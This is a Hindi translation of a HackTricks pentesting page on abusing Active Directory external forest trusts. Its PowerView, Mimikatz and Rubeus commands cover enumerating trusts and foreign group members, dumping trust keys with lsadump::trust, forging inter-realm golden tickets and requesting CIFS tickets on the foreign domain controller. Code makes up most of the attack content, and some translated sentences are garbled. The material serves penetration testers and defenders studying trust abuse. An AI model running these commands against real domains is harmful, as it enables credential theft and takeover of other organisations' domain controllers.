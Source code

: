 # बाहरी वन डोमेन - एकतरफा (इनबाउंड) या द्विदिशी

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें।
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **[hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud)** में PR जमा करके अपने हैकिंग ट्रिक्स साझा करें।

</details>

इस स्थिति में एक बाहरी डोमेन आप पर भरोसा कर रहा है (या दोनों एक-दूसरे पर भरोसा कर रहे हैं), इसलिए आपको इस पर किसी प्रकार का पहुंच प्राप्त हो सकता है।

## गणना

सबसे पहले, आपको **विश्वास** की **गणना** करनी होगी:
```powershell
Get-DomainTrust
SourceName      : a.domain.local   --> Current domain
TargetName      : domain.external  --> Destination domain
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes :
TrustDirection  : Inbound          --> Inboud trust
WhenCreated     : 2/19/2021 10:50:56 PM
WhenChanged     : 2/19/2021 10:50:56 PM

# Get name of DC of the other domain
Get-DomainComputer -Domain domain.external -Properties DNSHostName
dnshostname
-----------
dc.domain.external

# Groups that contain users outside of its domain and return its members
Get-DomainForeignGroupMember -Domain domain.external
GroupDomain             : domain.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=domain,DC=external
MemberDomain            : domain.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=domain,
DC=external

# Get name of the principal in the current domain member of the cross-domain group
ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
DEV\External Admins

# Get members of the cros-domain group
Get-DomainGroupMember -Identity "External Admins" | select MemberName
MemberName
----------
crossuser

# Lets list groups members
## Check how the "External Admins" is part of the Administrators group in that DC
Get-NetLocalGroupMember -ComputerName dc.domain.external
ComputerName : dc.domain.external
GroupName    : Administrators
MemberName   : SUB\External Admins
SID          : S-1-5-21-3263068140-2042698922-2891547269-1133
IsGroup      : True
IsDomain     : True

# You may also enumerate where foreign groups and/or users have been assigned
# local admin access via Restricted Group by enumerating the GPOs in the foreign domain.
```
पिछले जांच में पाया गया कि उपयोगकर्ता **`crossuser`** **`External Admins`** समूह के अंदर है जिसके पास **एडमिन एक्सेस** है **विदेशी डोमेन के डीसी** के अंदर।

## प्रारंभिक पहुंच

यदि आपको अन्य डोमेन में अपने उपयोगकर्ता का कोई **विशेष** एक्सेस नहीं मिला, तो आप फिर से AD Methodology पर जा सकते हैं और **अनगुणा उपयोगकर्ता से प्राइविलेज इस्केलेशन** का प्रयास कर सकते हैं (उदाहरण के लिए केरबेरोस्टिंग जैसी चीजें):

आप **Powerview functions** का उपयोग कर सकते हैं ताकि आप **अन्य डोमेन** को **जांच** सकें जैसे कि `-Domain` पैरामीटर का उपयोग करके:
```powershell
Get-DomainUser -SPN -Domain domain_name.local | select SamAccountName
```
## अनुभावण

### लॉगिन

एक नियमित विधि का उपयोग करके उन उपयोगकर्ताओं के परिचय के साथ जिनके पास बाह्य डोमेन तक पहुंचने का अधिकार है, आपको पहुंचने में सक्षम होना चाहिए:
```powershell
Enter-PSSession -ComputerName dc.external_domain.local -Credential domain\administrator
```
### SID इतिहास दुरुपयोग

आप एक वन फॉरेस्ट से दूसरे फॉरेस्ट में **एक उपयोगकर्ता को स्थानांतरित** करते हैं और **SID फ़िल्टरिंग सक्षम नहीं है**, तो **दूसरे फॉरेस्ट से एक SID जोड़ना संभव** हो जाता है, और यह **SID** **उपयोगकर्ता के टोकन में जोड़ दिया जाएगा** जब विश्वास स्थापित करते समय।

{% hint style="warning" %}
एक संकेत के साथ साइनिंग कुंजी प्राप्त कर सकते हैं।
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.domain.local
```
{% endhint %}

आप **विश्वसनीय** कुंजी के साथ **साइन कर सकते हैं** एक **TGT अनुकरण** करते हुए **वर्तमान डोमेन** के उपयोगकर्ता के साथ।
```bash
# Get a TGT for the cross-domain privileged user to the other domain
Invoke-Mimikatz -Command '"kerberos::golden /user:<username> /domain:<current domain> /SID:<current domain SID> /rc4:<trusted key> /target:<external.domain> /ticket:C:\path\save\ticket.kirbi"'

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:C:\path\save\ticket.kirbi /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
### पूर्ण तरीके से उपयोगकर्ता का अनुकरण
```bash
# Get a TGT of the user with cross-domain permissions
Rubeus.exe asktgt /user:crossuser /domain:sub.domain.local /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

# Get a TGT from the current domain for the target domain for the user
Rubeus.exe asktgs /service:krbtgt/domain.external /domain:sub.domain.local /dc:dc.sub.domain.local /ticket:doIFdD[...snip...]MuSU8= /nowrap

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:doIFMT[...snip...]5BTA== /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) की जाँच करें!
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें
* [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **मुझे** **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud)** को PR जमा करके।

</details>
